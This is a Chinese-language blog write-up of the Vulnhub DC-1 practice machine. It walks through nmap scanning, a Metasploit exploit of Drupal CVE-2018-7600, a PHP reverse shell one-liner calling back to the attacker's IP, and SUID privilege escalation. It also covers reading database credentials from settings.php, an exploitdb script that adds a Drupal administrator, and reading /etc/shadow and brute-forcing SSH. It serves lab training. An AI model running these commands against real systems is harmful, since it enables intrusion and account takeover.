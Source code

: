 ```yaml
---
title: Vulnhub - DC-1 の Write-Up
date: 2019-11-14 09:55:25
categories: 
- WriteUPs
- Vulnhub
tags: 
- Web
- DC Series
---
```

## 前言
&emsp;&emsp;今天看到FreeBuf上有一篇关于[VulHub DC-1](http://www.five86.com/downloads/DC-1.zip)靶机的教学，就自己下载了一台玩了一下。

<!-- more -->

## Step 1

&emsp;&emsp;首先肯定要扫描一下靶机的IP地址，在Kali中用nmap扫描一下整个网段。

![](/img/DC-1/DC-1-1.png)

&emsp;&emsp;172.16.12.134是Kali自己的地址，所以靶机的地址就是172.16.12.136了。然后再针对靶机扫描一下开放的端口和服务。

![](/img/DC-1/DC-1-2.png)

## Step 2

&emsp;&emsp;访问了下80端口的服务，发现是一个Drupal的cms。没有发现Web服务上有什么可乘之机，用nikto也扫了一下网站，做为辅助判断，也没有任何进展。

![](/img/DC-1/DC-1-3.png)

&emsp;&emsp;也用了Dirbuster探索了一下网站结构，找找有没有敏感文件，最终都一无所获。于是去百度上找了一下Drupal有什么漏洞，果不其然，找到一个CVE-2018-7600的远程代码执行漏洞，影响Drupal 6，7，8等多个子版本。正好nmap扫描时发现靶机上是Drupal 7，瞬间觉得找对了地方。

## Step 3

&emsp;&emsp;第一反应当然是MSF走起，`search cve-2018-7600`果然有东西。

![](/img/DC-1/DC-1-4.png)

&emsp;&emsp;MSF一通操作，so easy！

![](/img/DC-1/DC-1-5.png)

![](/img/DC-1/DC-1-6.png)

&emsp;&emsp;进入shell之后发现是一个非交互shell，想办法得到一个交互式shell。首先试了下php的反弹shell，执行命令`php -r '$sock=fsockopen("172.16.12.134",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`可以回弹shell，但是输入命令没反应。只能换个法子，看了下系统环境，发现有Python 2.7的环境，利用下面的命令实现反弹shell。

```bash
python -c "import pty; pty.spawn('/bin/sh')"
```

![](/img/DC-1/DC-1-7.png)

## Step 4

&emsp;&emsp;发现www-data权限很低，接下来要进行提权操作。`uname -a`看了下系统版本，发现脏牛提权可能可以玩，但是不太好操作。最后选择了简单的[suid提权](https://coldwave96.github.io/2019/11/15/suid/)。

![](/img/DC-1/DC-1-8.png)

![](/img/DC-1/DC-1-9.png)

&emsp;&emsp;提权成功，开始在靶机中寻找flag，在/home/flag4文件夹下发现flag4.txt文件。

![](/img/DC-1/DC-1-10.png)

&emsp;&emsp;在/var/www文件夹下发现flag1.txt，就是在低权限用户www-data下发现的文件。

![](/img/DC-1/DC-1-11.png)

&emsp;&emsp;根据提示去找站点的配置文件/var/www/sites/default/settings.php，在文件中发现了flag2和数据库的帐号密码。

![](/img/DC-1/DC-1-12.png)

&emsp;&emsp;连接数据库，在数据库中继续寻找信息。

![](/img/DC-1/DC-1-13.png)

&emsp;&emsp;在users表里发现admin用户的信息。

![](/img/DC-1/DC-1-14.png)

## Step 5

### Solution 1

&emsp;&emsp;接下来尝试破解或者修改admin密码，Drupal对数据库中用户密码的加密脚本为网站根目录下scripts文件夹下的`password-hash.sh`。根据加密脚本解密肯定是一种南辕北辙的做法，虽然地球是圆的，理论上可以做到。但是简单直接的思路是加密新的我们设定的密码，然后对数据库中的admin密码进行替换。(参考链接：[http://drupalchina.cn/node/2128](http://drupalchina.cn/node/2128))

![](/img/DC-1/DC-1-15.png)

&emsp;&emsp;然后登陆Drupal，找到flag3。

![](/img/DC-1/DC-1-16.png)

### Solution 2

&emsp;&emsp;MSF的exploitdb中关于Drupal也存在不少的利用脚本，其中针对Drupal 7的有一个添加一个和admin权限相同用户的脚本，通过这个脚本可以创建一个administrator账户。

![](/img/DC-1/DC-1-17.png)

&emsp;&emsp;运行下面的命令。

```bash
python /usr/share/exploitdb/exploits/php/webapps/34992.py -t http://172.16.12.136 -u administrator -p 123456
```

![](/img/DC-1/DC-1-18.png)

&emsp;&emsp;同样的登陆Drupal，找到flag3。

![](/img/DC-1/DC-1-19.png)

## Step 6

&emsp;&emsp;最后好剩下一个flag，我自己是完全没想到。根据WriteUp，查看靶机/etc/shadow文件发现系统存在一个flag4用户，然后爆破ssh密码可以发现该用户的弱密码orange，登录后可以找到flag4，然后通过flag4找到最后一个flag在/root根目录下。

&emsp;&emsp;在root下也发现了这个flag，但是没有仔细看内容，所以放过了最后一个flag。

![](/img/DC-1/DC-1-20.png)

![](/img/DC-1/DC-1-21.png)